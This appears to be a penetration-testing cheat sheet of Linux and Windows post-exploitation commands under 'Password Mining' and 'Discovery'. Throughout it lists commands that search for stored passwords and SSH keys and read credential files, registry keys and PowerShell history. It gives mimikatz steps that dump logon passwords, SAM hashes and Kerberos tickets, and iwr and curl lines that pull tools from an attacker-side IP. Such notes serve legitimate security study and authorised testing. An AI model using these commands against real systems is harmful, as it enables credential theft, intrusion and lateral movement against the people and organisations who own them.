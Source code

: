 ### Password Mining -
#### Linux
- Reference - [Linux Password Mining](https://medium.com/@tinopreter/linux-password-mining-58e341635f1c)
- `ls /home/<user>/.ssh/`
	- By default, SSH searches for `id_rsa, id_ecdsa, id_ecdsa_sk, id_ed25519, id_ed25519_sk, and id_dsa` files. - [Reference](https://askubuntu.com/questions/30788/does-ssh-key-need-to-be-named-id-rsa)
- Search password in other files
	- `grep -r pass /home 2>/dev/null`
	- `grep -r pass /opt 2>/dev/null`
	- `grep -r pass /tmp 2>/dev/null`
	- `grep -r pass /etc 2>/dev/null`
	- `grep -r pass /var 2>/dev/null`
	    - Alternative command - `find /opt -type f -exec grep -i -I "pass" {} /dev/null;`
    - Sticky bit files - `find / -perm 1777 -type f 2>/dev/null`
- Extract password from memory
#### Windows
- Reference - [Windows Password Mining](https://medium.com/@tinopreter/windows-password-mining-3a72205673ff)
- Search for file containing pass string
	- `findstr /si /m "pass" *.xml *.ini *.conf *.txt *.log *.bak`
- Search for files
	- `Get-ChildItem -Path <Path> -Include *.log,*.txt,*.bak,*.kdbx -File -Recurse -ErrorAction SilentlyContinue`
	- Alternative - `dir /s *.log,*.txt,*.bak,*.kdbx`
- Display lines containing “pass” string - `type "<file-name>" | Select-String -Pattern "pass"`
- Check for any Writable File
	- Alternative mass checking
	    - Files with `Everyone:(I)(F)` permission - `icacls "Path\To\Directory\*" 2>nul | findstr "(F)" | findstr "Everyone"`
        - Files with `BUILTIN\Users:(F)` permission (for all members of Users Group) - `icacls "Path\To\Directory\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"`
        - Files with `Everyone:(I)(M)` permission - `icacls "Path\To\Directory\*" 2>nul | findstr "(M)" | findstr "Everyone"`
        - Files with `BUILTIN\Users:(M)` permission (for all members of Users Group) - `icacls "Path\To\Directory\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users"`
    - Can use accesschk64.exe to check writable folders and files
	    - `accesschk64.exe -qwsu "Everyone" *`
        - `accesschk64.exe -qwsu "Authenticated Users" *`
        - `accesschk64.exe -qwsu "Users" *`
- Unattended Windows Installer - Single OS image mass installation on large machines. Such installation requires Administrator access, so might store credentials in following locations -
	- `C:\Unattend.xml`
    - `C:\Windows\Panther\Unattend.xml`
    - `C:\Windows\Panther\Unattend\Unattend.xml`
    - `C:\Windows\system32\sysprep.inf`
    - `C:\Windows\system32\sysprep\sysprep.xml`
- IIS Web Server - The configuration file i.e. web.config might store passwords for database or configured authentication mechanisms. They can be found -
	- `C:\inetpub\wwwroot\web.config`
    - `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
    - Can perform this - `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
- Credentials stored in software PuTTY
	- `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
- Powershell History
	- `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
- Software - Check if any password manager is in installed or uninstalled application list
	- `Get-ItemProperty  "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
    - `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
- Windows registry - Windows Registry is a database that contains configs and settings for windows and other applications installed on the system. Following commands display specific string occurances in registry -
	- `reg query HKLM /f password /t REG_SZ /s`
    - `reg query HKCU /f password /t REG_SZ /s`
- mimikatz.exe - [Mimikatz Hacktricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)
	- `mimikatz> privilege::debug` - engage the SeDebugPrivilege privilege, which will allow us to interact with a process owned by another account
    - `mimikatz> token::elevate` - elevate your permissions
    - `mimikatz> sekurlsa::logonpasswords` - dump the credentials of all logged-on users
    - `mimikatz> lsadump::sam` - dump the SAM file hashes
    - `mimikatz> sekurlsa::tickets` - dump kerberos tickets from memory
- Get list of kerberos tickets for logged in user - `klist`
### Discovery -
#### Linux
- `id` → User Information
- `cat /etc/issue` → OS Information
- `uname -a` → Kernel Information
- `ls /home` → List user directory
- `ls -al /home/*` → all users basic contents
- `cat /etc/passwd` → System user information
- `cat /etc/hosts` → Host file
- `ss -ntplu` → Open ports
- `ps -ef` → Active processes
- `ip route` or `ifconfig /all` → IP Configuration
- `history` → Command history
- `printenv` → Environment Variables
- `cat /etc/iptables/rules.v4` → firewall rules
- `pspy64` - Continuous enumeration of processes - [pspy64](https://github.com/DominicBreuker/pspy)
- `linpeas.sh` - Automated Linux Enumeration - [linpeas](https://www.kali.org/tools/peass-ng/)
#### Windows
- `whoami /all` → Active user information
- `net user`  → List of users
	- `PS> Get-LocalUser | ft Name,Enabled,LastLogon` → Alternative with some extra information
- `dir C:\Users`  → List of user directory
- `PS> Get-LocalGroup` → Gives list of groups in system (Name, Description)
- `PS> Get-LocalGroupMember <group-name>` → Gives list of members in specified `<group-name>` (ObjectClass, Name, PrincipalSource)
- `systeminfo`  → System Information
- `ipconfig` or `ip route`  → IP configuration
- `route print`  → Routing table
- `netstat -ano`  → Open Ports
- `Get-Process` or `tasklist /svc`  → Enumerate process
- `Get-History`  → Enumerate history
- `Get-LocalGroupMembers <group-name>`
- `(Get-PSReadlineOption).HistorySavePath` → Powershell History File Path
- Watch-Command - stay
	- [Tutorial](https://wragg.io/watch-for-changes-with-powershell/), [Source](https://github.com/markwragg/PowerShell-Watch)
    - Download Watch-Command script from here - [Watch-Command.ps1](https://www.powershellgallery.com/packages/Watch/1.0.7/Content/Public%5CWatch-Command.ps1)
    - `PS> iwr -uri http://192.168.45.157/172/172-12/Watch-Command.ps1` -Outfile Watch-Command.ps1
    - `PS> Import-Module .\Watch-Command.ps1` → Import powershell script
    - `PS> Get-Process | Watch-Command -Diff -Cont -Verbose` → Perform watch on enumerating process
    - `PS> Get-Process -ErrorAction SilentlyContinue | Watch-Command -Diff -Cont -Verbose -Seconds 30` → Perform watch every 30 seconds on enumerating process
    - `PS> Get-Process backup -ErrorAction SilentlyContinue | Watch-Command -Diff -Cont -Verbose` → Perform watch on enumerating process and filter with backup processes
- winPEAS - Automated Windows Enumeration - [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
- Seatbelt - [Seatbelt Package](https://github.com/GhostPack/Seatbelt)
	- Seatbelt.exe → kinda similar to winPEAS, but more advanced (specifically for AD)
    - Reference - [Video](https://www.youtube.com/watch?v=8KJebvmd1Fk&t=1185s)
    - Build
	    - Go to Windows and clone seatbelt from - [Seatbelt](https://github.com/GhostPack/Seatbelt)
        - Open Seatbelt.sln with Visual Studio
        - Change Debug dropdown in menu to Release
        - Select Build Solution from Build menu to get Seatbelt.exe
    - On executing Seatbelt.exe , we get error that executable is not a valid application for OS platform
	    - Solution - We should try uploading executable with different method, some of them are
	        - iwr, certutil, smbshare, curl (as per video this worked) (curl 10.10.10.169/seatbelt.exe -o seatbelt.exe), Net-Object Net.WebClient ...
	        - OR while building release of seatbelt → Right click seatbelt → select ‘Properties’ → Select .NET Framework 4 or 4.5  for Target framework

